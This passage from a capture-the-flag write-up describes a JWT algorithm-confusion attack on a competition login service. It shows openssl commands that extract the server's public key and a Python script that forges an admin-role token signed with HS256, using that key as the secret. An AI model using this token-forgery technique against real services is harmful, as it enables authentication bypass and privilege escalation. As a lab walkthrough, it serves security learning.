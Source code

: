 ```py
print(new_request.text)
```

The script could be easier if you get the iat through burpsuite then decode it using [jwt.io](https://jwt.io) and input the iat into the field manually. 

Throwing in the newly generated JWT i created into burpsuite and forwarding the GET request for the token, I was not able to logged in :(.

I was hard stuck as to why it did not work and decided to try the other vulnerability which is the downgrade attack. Since i was not able to get the public key from the website(http).
I went to the main website and retrieve the certificate to get the public key.

```
$ openssl s_client -connect https://play.cat2.stf-2020.alttablabs.sg/:443 > cert.pem  
```
```
$ openssl x509 -in cert.pem -pubkey -noout > key.pem
```
Using key.pem, as the new key for the HMAC encryption, I edited the script for the encryption of the public key.

```py
import requests 
import json
import jwt, token
import base64

proxies = {
    "http" : "http://127.0.0.1:8080/"
}

url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/login'
myobj = {"username":"minion","password":"banana"}
x = requests.post(url, data = myobj)

secret = open('public.pem', 'r').read()

jwt_token = x.text[16:-2]
split_token = jwt_token.split('.')
token = split_token[1]

payload = str(base64.b64decode(token + "=="))
iat = payload[43:-2]

new_payload = '{ "username": "minion", "role": "admin", "iat": ' + iat + ' }'
encoded_jwt = str(jwt.encode(json.loads(new_payload), key=secret, algorithm='HS256'))
encoded_jwt = encoded_jwt[2:-1]

new_url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/unlock'
authentication = "Bearer " + encoded_jwt
headers = {'User-Agent':'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0', "Accept": "*/*", "Host": "yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41031/", "Authorization": authentication}
new_request = requests.get(new_url, headers = headers)
print(new_request.text)
```
